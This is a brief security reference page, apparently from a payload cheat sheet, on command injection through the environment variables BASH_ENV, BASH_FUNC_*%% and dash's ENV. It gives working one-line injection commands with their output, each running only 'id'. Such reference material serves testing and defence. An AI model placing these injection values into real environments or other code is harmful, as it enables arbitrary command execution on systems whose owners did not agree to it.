 # Environment variables

## BASH_ENV

You can use `BASH_ENV` with bash to achieve a command injection:

```bash
$ BASH_ENV='$(id 1>&2)' bash -c 'echo hello'
uid=0(root) gid=0(root) groups=0(root)
hello
```

References:
- [Research: How do I use environment variable injection to execute arbitrary commands](https://tttang.com/archive/1450/#toc_0x06-bash_env)

## BASH_FUNC_*%%

You can use `BASH_FUNC_*%%` to initialize an anonymous function according to the value of the environment variable and give it a name. The following sample adds `myfunc` function to the bash context:

```bash
$ env $'BASH_FUNC_myfunc%%=() { id; }' bash -c 'myfunc'
uid=0(root) gid=0(root) groups=0(root)
```

Moreover, you can override existing functions:

```bash
$ env $'BASH_FUNC_echo%%=() { id; }' bash -c 'echo hello'
uid=0(root) gid=0(root) groups=0(root)
hello
```

References:
- [Research: How do I use environment variable injection to execute arbitrary commands](https://tttang.com/archive/1450/#toc_0x08)

## ENV

When you force the [dash](https://linux.die.net/man/1/dash) to behave interactively, dash will look for `ENV` environment variable and pass it into `read_profile` function:

```c
if ((shinit = lookupvar("ENV")) != NULL && *shinit != '\0') {
    read_profile(shinit);
}
```

`read_profile` will print the `ENV` content:

```bash
$ ENV='$(id 1>&2)' dash -i -c 'echo hello'
uid=0(root) gid=0(root) groups=0(root)
hello
```
